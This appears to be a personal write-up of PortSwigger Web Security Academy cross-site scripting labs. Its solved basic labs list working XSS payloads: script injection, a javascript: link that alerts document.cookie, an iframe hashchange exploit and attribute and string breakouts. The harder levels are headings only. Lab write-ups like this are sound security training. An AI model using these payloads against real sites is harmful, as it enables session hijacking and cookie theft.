









# Cross-site scripting

## Basics

### Reflected XSS into HTML context with nothing encoded

Reflected XSS is the simplest variety of cross-site scripting. It arises when an application receives data in an HTTP request and includes that data within the immediate response in an unsafe way. This lab contains a simple reflected cross-site scripting vulnerability in the search functionality. To solve the lab, perform a cross-site scripting attack that calls the alert function. 

----

|  |
|:--:|
|  |
|  |
|  |

### Stored XSS into HTML context with nothing encoded

Stored XSS (also known as persistent or second-order XSS) arises when an application receives data from an untrusted source and includes that data within its later HTTP responses in an unsafe way. This lab contains a stored cross-site scripting vulnerability in the comment functionality. To solve this lab, submit a comment that calls the alert function when the blog post is viewed. 

----

|  |
|:--:|
|  |
|  |

### DOM XSS in document.write sink using source location.search

DOM-based XSS (also known as DOM XSS) arises when an application contains some client-side JavaScript that processes data from an untrusted source in an unsafe way, usually by writing the data back to the DOM. This lab contains a DOM-based cross-site scripting vulnerability in the search query tracking functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search, which you can control using the website URL. To solve this lab, perform a cross-site scripting attack that calls the alert function. 

----

Trying:

    >alphanumeric`

|  |
|:--:|
|  |

Trying:

    "<script>alert('Hello World')</script>

|  |
|:--:|
|  |
| Even the closing body tag is out of whack! |

Trying closing the `img` tag first:

    "><script>alert('Hello World')</script>

|  |
|:--:|
|  |

### DOM XSS in innerHTML sink using source location.search

This lab contains a DOM-based cross-site scripting vulnerability in the search blog functionality. It uses an innerHTML assignment, which changes the HTML contents of a div element, using data from location.search. To solve this lab, perform a cross-site scripting attack that calls the alert function. 

----

|  |
|:--:|
| If there is a query in the `location.search` variable (the URL input), `document.getElementById`<br>gets the element with ID `searchMessage`. Then it will set its `innerHTML` to the query. |

    

|  |
|:--:|
| During the rendering of the page, the image fails to load. This will raise the JavaScript<br>`alert`<br> box, confirming the XSS vulnerability. |

### DOM XSS in jQuery anchor href attribute sink using location.search source

 This lab contains a DOM-based cross-site scripting vulnerability in the submit feedback page. It uses the jQuery library's `$` selector function to find an anchor element, and changes its href attribute using data from location.search. To solve this lab, make the "back" link alert `document.cookie`.  

----

 

The url:

    https://0a1800ac03209537c12be0bd005f00f0.web-security-academy.net/feedback?returnPath=/

Create the new "back" link:

    https://0a1800ac03209537c12be0bd005f00f0.web-security-academy.net/feedback?returnPath=javascript:alert(document.cookie)


Click the `Back` button on the site to trigger the attack.

### DOM XSS in jQuery selector sink using a hashchange event

This lab contains a DOM-based cross-site scripting vulnerability on the home page. It uses jQuery's `$()` selector function to auto-scroll to a given post, whose title is passed via the `location.hash` property. To solve the lab, deliver an exploit to the victim that calls the `print()` function in their browser. 

----

    <script>
        $(window).on('hashchange', function(){
            var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
            if (post) post.get(0).scrollIntoView();
        });
    </script>

A [Jquery hashchange](https://github.com/apopelo/jquery-hashchange) event tracks URL history changes. When a change happens, `decodeURIComponent` is called on the `window.location.hash`. If that part of the page exists, the browser scrolls to it.

Create exploit:

    <iframe src="https://<random-string>.web-security-academy.net/#" onload="this.src+=''">

For delivery, up top click on Go To Exploit Server, enter the exploit in the body field and **Store** the changes.


Then click **View Exploit** to try it out on yourself. If that worked, click **Deliver Exploit to Victim**.


### Reflected XSS into attribute with angle brackets HTML-encoded

This lab contains a reflected cross-site scripting vulnerability in the search blog functionality where angle brackets are HTML-encoded. To solve this lab, perform a cross-site scripting attack that injects an attribute and calls the alert function. 

----

I took the leads from HackTricks concerning [XSS methodology](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting#methodology) and [XSS Inside HTML tags attribute](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting#inside-html-tags-attribute): _2. If you can escape from the attribute but not from the tag (-> is encoded or deleted), depending on the tag you could create an event that executes JS code:_

```text
" autofocus onfocus=alert(1) x="
```


The resulting HTML:

    <section class=blog-header>
        <h1>0 search results for '&quot; autofocus onfocus=alert(1) x=&quot;'</h1>
        <hr>
    </section>

### Stored XSS into anchor href attribute with double quotes HTML-encoded

This lab contains a stored cross-site scripting vulnerability in the comment functionality. To solve this lab, submit a comment that calls the alert function when the comment author name is clicked. 

----


### Reflected XSS into a JavaScript string with angle brackets HTML encoded

This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality where angle brackets are encoded. The reflection occurs inside a JavaScript string. To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the alert function. 

----

    <script>
        var searchTerms = '&lt;alphanumeric';
        document.write('');
    </script>

The script accepts input, assigns it to the variable `searchTerms`, and does a `document.write` with the encoded URL using `encodeURIComponent`. Again, taking the lead from Hacktricks XSS page, in the section on [Inside JavaScript code](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting#inside-javascript-code):

    '-alert('XSS')-'


## Practitioner

### DOM XSS in document.write sink using source location.search inside a select element

### DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

### Reflected DOM XSS

### Stored DOM XSS

### Exploiting cross-site scripting to steal cookies

### Exploiting cross-site scripting to capture passwords

### Exploiting XSS to perform CSRF

### Reflected XSS into HTML context with most tags and attributes blocked

### Reflected XSS into HTML context with all tags blocked except custom ones

### Reflected XSS with some SVG markup allowed

### Reflected XSS in canonical link tag

### Reflected XSS into a JavaScript string with single quote and backslash escaped

### Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped

### Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped

### Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped

## Expert

### Reflected XSS with event handlers and href attributes blocked

### Reflected XSS in a JavaScript URL with some characters blocked

### Reflected XSS with AngularJS sandbox escape without strings

### Reflected XSS with AngularJS sandbox escape and CSP

### Reflected XSS protected by very strict CSP, with dangling markup attack

### Reflected XSS protected by CSP, with CSP bypass